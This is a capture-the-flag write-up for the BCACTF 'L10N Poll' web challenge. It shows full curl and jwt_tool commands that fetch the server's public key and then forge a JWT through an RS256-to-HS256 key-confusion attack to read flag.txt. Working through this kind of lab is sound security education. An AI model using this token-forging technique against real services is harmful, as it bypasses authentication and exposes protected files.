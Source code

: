 # L10N Poll:webex:300pts
I made the ultimate polling service! Il supporte tout les langues. Это потому, что на сайте используются передовые технологии локализации. ¿Puedes leer esto? أنا متأكد من أنني لا أستطيع. 立即开始！  
(The flag is stored in `flag.txt`.)  
[package.json](package.json)  
[server.js](server.js)  
[http://web.bcactf.com:49159/](http://web.bcactf.com:49159/)  
  
Hint 1 of 3  
How is the localisation/localization implemented?  
Hint 2 of 3  
Check out RFC 7519 perhaps  
Hint 3 of 3  
Take a close look at the package.json...  

# Solution

It's like a questionnaire where you can specify the language when you visit the site. 
[site.png](site/site.png)  
Looking at the distributed source, it seems that the language is stored in the JWT of the cookie.
I am concerned about the following part of server.js.  
```js

const languageRegex = /^[a-z]+$/;

router.post("/localization-language", async ctx => {
    const language = ctx.request.body?.language;
    if (typeof language === "string") {
        if (language.match(languageRegex)) {
            ctx.cookies.set("lion-token", generateToken(language));
        } else {
            ctx.throw(400, msgs[Math.floor(Math.random() * msgs.length)]);
        }
    } else {
        ctx.throw(400, "no language");
    }
    ctx.redirect("/");
});
```
You can set any of the JWT languages, with lowercase alphabetic restrictions.
It seems that a file with this language as the file name is being read, so you can set it to `flag.txt`, but you cannot use` .`.
Therefore, pay attention to the following.  
```js

const publicKey = readFileSync(join(__dirname, "key"), "utf8");
const msgs = readFileSync(join(__dirname, "errormessages"), "utf8").split("\n").filter(s => s.length > 0);

```

It seems to be able to read the public key and error message file.
Here I recall the vulnerability that allows JWT to be tampered with with a public key.
First, get the key as follows.

```bash
$ curl -X POST http://web.bcactf.com:49159/localization-language -d "language=key" -v

< HTTP/1.1 302 Found
< Set-Cookie: lion-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImtleSIsImlhdCI6MTYyMzYwNTQzMH0.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw; path=/; httponly
```
Redirecting to <a href="/">/</a>.
```bash
$ curl -X GET http://web.bcactf.com:49159/localisation-file --cookie "lion-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImtleSIsImlhdCI6MTYyMzYwNTQzMH0.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw"
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCRaHtUpvSkcf2KCwXTiX48Tjxf
bUVFn7YimqGPQbwTnE0WfR5SxLK/DH0os9jCCeb7pJ08AbHFBzQNUfbg47xI3aJh
PMdjL/w3iqfc56C7lt59u4TeOYc7kguph/GTYDPDZkgtbkFJmbkbg9MvV723U1PW
M7N2P4b2Xf3p7ZtaewIDAQAB
-----END PUBLIC KEY-----
```

In this way, it succeeds in obtaining the public key.
Save the obtained public key in the key.  
next[The JSON Web Token Toolkit v2](https://github.com/ticarpi/jwt_tool)を用いて以下のようにJWTの改竄を
Do.

```bash
$ git clone https://github.com/ticarpi/jwt_tool

$ cd jwt_tool/
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImtleSIsImlhdCI6MTYyMzYwNTQzMH0.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw -T

Token header values:
[1] typ = "JWT"
[2] alg = "RS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] language = "key"
[2] iat = 1623605430    ==> TIMESTAMP = 2021-06-14 02:30:30 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of language is: key
Please enter new value and hit ENTER
> flag.txt
[1] language = "flag.txt"
[2] iat = 1623605430    ==> TIMESTAMP = 2021-06-14 02:30:30 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_a32fb33e317df9c60a5eb5f4e3d00dcc - Tampered token:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoxNjIzNjA1NDMwfQ.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoxNjIzNjA1NDMwfQ.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw -X k -pk ../key
        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.3                \______|             @ticarpi

Original JWT:

File loaded: ../key
jwttool_d2cefa5ad18fe82fe82426d0466891e6 - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoxNjIzNjA1NDMwfQ.Hbvl5NSDSsELfeCDs6ZoWiiJsP3O8IHd4G4WWnvULDk
```

In this way, I was able to obtain a tampered JWT.
Use this to send a request as follows.  

```bash
$ curl -X GET http://web.bcactf.com:49159/localisation-file --cookie "lion-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoxNjIzNjA1NDMwfQ.Hbvl5NSDSsELfeCDs6ZoWiiJsP
3O8IHd4G4WWnvULDk"
bcactf{je_suis_desole_jai_utilise_google_translate_beaucoup_dfW78ertjk}
```
Flag was obtained.  

Flag: ```bcactf{je_suis_desole_jai_utilise_google_translate_beaucoup_dfW78ertjk}```